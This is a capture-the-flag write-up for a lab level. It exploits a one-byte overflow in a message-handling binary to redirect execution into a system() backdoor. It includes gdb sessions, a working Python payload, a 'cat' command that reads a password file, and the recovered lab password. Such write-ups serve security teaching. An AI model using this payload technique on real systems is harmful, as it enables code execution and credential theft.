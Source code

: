 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09

We notice that we are in x86_64 so we have some difference between the 32.

We see that we have a function secret_backdoor which call system() with the command that we put in fgets:
int secret_backdoor()
{
	char s[128]; // [rsp+0h] [rbp-80h] BYREF

	fgets(s, 128, stdin);
	return system(s);
}

So we just have to find a way to call this function with a bufferoverflow, like we did in many previous levels.
The main function just call handle_msg function.
We see that handle_msg function has a buffer of 192.

We have set_msg function to store a message and set_username to sotre username.


	MESSAGE --> 0			USERNAME --> 140				MSG_LEN --> 180
|                 |								|	


MESSAGE : (char *)a1 --> We are a the start of  a1 (v1)
USERNAME : (a1 + i + 140) --> We are at 140
We can wrtie from 140 to 180 included !! : for ( i = 0; i <= 40 && s[i]; ++i )
MSG_LEN : (a1 + i + 180) --> We are at 180. Define the len of our message

Notre msg_len est de 140 : 0x00005555555548ff <+63>:	movl   $0x8c,-0xc(%rbp)
>>> 0x8c
140
So we can overflow of 1 byte with our username,
for overwrite the msg_lg and have a message with bigger len (255 max because we only overflow 1 byte).

Thanks to this, we will be able to write a message of 255 characters and therefore potentially overflow the return address of the main function (although we still need to find the offset).

	MESSAGE --> 0 --> 255				USERNAME --> 140				MSG_LEN --> 180
|                	 		|			A*40 + 255 en hexa				| Overwritted by 255 in hexa

So we write 40 char + \xff (= 255 in decimal) and then we put our pattern to determine the offset.

(gdb) run < <(python -c 'print 40 * "A" + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')
Starting program: /home/users/level09/level09 < <(python -c 'print 40 * "A" + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()


We have a segfault, perfect, it was just what we wanted.
Now we print the stack to now where we overwrite the return address of the main function.

(gdb) x/s $rsp
0x7fffffffe5c8:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"

We just have to calculate the number of characters between the start of the string and this 6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4.
We have 200 characters. --> This is our offset.

Find the address of secret_backdoor :

(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>

We want to overwrite the return address of the main function, with the address of secret_backdoor.
We have to convert the address of secret_backdoor to little endian.
0x55555555488c  = \x8c\x48\x55\x55\x55\x55\x00\x00

We add \x00\x00 because we are in 64 bytes, so we have 8 bytes.

Now we have to add to our payload : 
the offset to the address of secret_backdoor
the address of secret_backdoor
a "\n" to simulate the enter key
and cat the .pass with cat /home/users/end/.pass, it will be call with system (in secret_backdoor)

We have something like this :

A*40 + \xff + \n + A*200 + address of secret_backdoor + \n + cat /home/users/end/.pass

A*40 + \xff --> Overwrite the len of strncpy of set_msg,
so we can do a BufferOverflow.
A*200 --> Offset to the return address of main
address of secret_backdoor --> Overwrite the return address of main
cat /home/users/end/.pass --> Call system("/bin/cat /home/users/end/.pass")

(python -c 'print 40 * "A" + "\xff" + "\n" + "A"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "cat /home/users/end/.pass"' ) | ./level09

level09@OverRide:~$ (python -c 'print 40 * "A" + "\xff" + "\n" + "A"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "cat /home/users/end/.pass"' ) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)